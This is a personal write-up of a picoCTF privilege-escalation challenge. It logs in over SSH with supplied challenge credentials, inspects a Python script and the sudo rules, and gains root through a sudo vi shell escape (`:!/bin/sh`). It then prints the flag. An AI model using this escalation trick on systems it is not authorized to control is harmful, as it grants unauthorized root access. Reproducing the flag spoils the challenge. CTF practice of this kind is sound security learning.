 # Description

Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

saturn.picoctf.net 60137
Username: picoctf
Password: urTi-qvQtA

**tags: Binary Exploitation, privilege_escalation**

# Notes

- Sign in to the server
`ssh ssh -p 60137 picoctf@saturn.picoctf.net`

```bash
picoctf@challenge:~$ pwd
/home/picoctf
```

- Nothing seems to be in the current directory

```bash
picoctf@challenge:/home$ ls
picoctf
picoctf@challenge:/home$ ls -a
.  ..  picoctf
```

```bash
picoctf@challenge:/home$ cd picoctf/
picoctf@challenge:~$ ls -a
.  ..  .bash_logout  .bashrc  .cache  .profile  .server.py
```

- `chche`, `profile`, `server.py` looks interesting..

```bash
picoctf@challenge:~$ cd .cache/
picoctf@challenge:~/.cache$ ls
motd.legal-displayed
```

- `motd.legal-displayed` file is empty

`cat .profile`
```
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
```

`cat server.py`
```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

- Code looks like it's just makes ping request and encodes the IP address `host_info[2]` is just a IP address
- Try running python file anyways

```bash
picoctf@challenge:~$ python3 .server.py 
sh: 1: ping: not found
Traceback (most recent call last):
  File ".server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

- Error because you can't ping because not root user?
- Let's see what commands we can use

`sudo -l`
```bash
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

- All users can use /usr/bin/vi which is `vim`
- Upon research came across [this](https://gtfobins.github.io/gtfobins/vi/)
  - If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

`sudo vi -c ':!/bin/sh' /dev/null`
```bash
# pwd
/home/picoctf
# whoami
root
```

- We are now a root user!

```bash
# cd ~
# ls
# ls -a
.  ..  .bashrc .flag.txt  .profile
```

- Now we can see the `.flag.txt`
`cat .flag.txt`

**Flag found: picoCTF{pYth0nn_libraryH!j@CK!n9_4c188d27}**
